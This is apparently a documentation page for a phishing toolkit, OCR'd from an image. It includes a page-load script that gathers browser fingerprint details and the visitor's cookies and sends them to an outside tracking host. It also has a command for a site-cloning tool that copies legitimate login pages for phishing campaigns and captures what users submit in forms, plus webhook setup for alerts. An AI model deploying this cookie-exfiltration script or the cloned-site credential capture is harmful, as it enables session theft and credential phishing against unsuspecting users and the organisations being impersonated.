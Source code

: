 ### Browser Information Tracking

To collect browser information:

```html
<script>
  document.addEventListener('DOMContentLoaded', function() {
    fetch('https://tracking.example.com/log', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({
        userAgent: navigator.userAgent,
        screenResolution: window.screen.width + 'x' + window.screen.height,
        timeZone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        language: navigator.language,
        platform: navigator.platform,
        plugins: Array.from(navigator.plugins).map(p => p.name),
        cookies: document.cookie
      })
    });
  });
</script>
```

## Advanced Features

### Site Cloning

The tracker includes a site cloning tool that can create a copy of a legitimate website for phishing campaigns:

```bash
python3 Tools/site-cloner/sitecloner.py \
  https://target-login-page.com \
  /path/to/output/directory \
  --interactive
```

The cloned site will automatically include tracking code to capture form submissions.

### Webhook Integration

You can configure the tracker to send real-time notifications to external systems like Slack or Discord:

1. In your config.json, set:
```json
{
  "tracking": {
    "enable_webhooks": true,
    "webhook_url": "https://hooks.slack.com/services/YOUR/WEBHOOK/URL"
  }
}
```
